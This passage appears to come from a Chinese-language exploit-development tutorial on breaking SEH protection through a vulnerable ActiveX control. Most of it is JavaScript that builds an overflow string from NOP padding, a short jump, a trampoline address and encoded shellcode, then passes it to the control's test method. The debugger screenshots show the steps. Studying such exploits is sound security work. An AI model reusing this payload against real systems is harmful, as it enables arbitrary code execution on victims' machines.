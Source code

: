 断下后跟进call, 可以看到这时回到了S.E.H结构
![](/assets/img/exploit/2017-10-01-windows-binary-system-0day/0x012-017.png)
![](/assets/img/exploit/2017-10-01-windows-binary-system-0day/0x012-018.png)

SE Handler的跳板地址会干扰shellcode, 将shellcode整体放到下面, 用一个短跳跳过去
```
// junk(120 byte)+jmp short(2 byte)+junk(2 byte)+board(4 byte)+junk(8 byte)+payload(114 byte)
var s = "\u9090";
while (s.length < 60) {
s += "\u9090";
}
s+="\u0EEB\u9090";		# 0xEB0E->jmp +14(相对于下一条指令地址+14 byte)
s+="\u2D1C\u300B";		# 跳板
s+="\u9090\u9090\u9090\u9090";		# junk
s+="\ud231\u30b2\u8b64\u8b12\u0c52\u528b\u8b1c\u0842\u728b\u8b20\u8012\u0c7e\u7533\u89f2\u03c7\u3c78\u578b\u0178\u8bc2\u207a\uc701\ued31\u348b\u01af\u45c6\u3e81\u6146\u6174\uf275\u7e81\u4508\u6978\u7574\u8be9\u247a\uc701\u8b66\u6f2c\u7a8b\u011c\u8bc7\uaf7c\u01fc\u68c7\u2067\u0120\u7968\u7530\u686e\u7720\u6f6f\ue189\u49fe\u310b\u51c0\uff50\u90d7";
test.test(s);
```

如上组织250 byte的shellcode, OD再次附加上去, 来到call sprintf往下一步
![](/assets/img/exploit/2017-10-04-safeseh-break-byactivex/0x012-019.png)
